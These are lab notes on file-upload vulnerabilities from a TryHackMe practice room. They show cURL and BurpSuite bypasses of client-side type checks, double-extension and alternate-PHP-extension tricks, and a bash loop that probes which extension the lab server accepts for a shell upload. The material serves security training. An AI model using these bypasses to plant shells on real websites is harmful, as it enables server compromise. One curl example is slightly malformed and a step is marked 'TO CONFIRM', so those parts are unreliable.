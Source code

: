 # Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

1. Presence of valid file extension anywhere within the filename (whitelist)

Eg. Given that the the only valid file extension is `.jpg`. A list of valid filenames can be the following: `shell.jpg.php`, etc.



2. Uncommon file extension for the same filetype (blacklist)

Refer to the sub-page named: _**File extension cheat-sheet**_.



### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

`php-ext.txt`

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar

```

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.



```
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value
    echo "Command: " . htmlspecialchars($cmd);
} else {
    echo "No command provided.";
}
?>
```
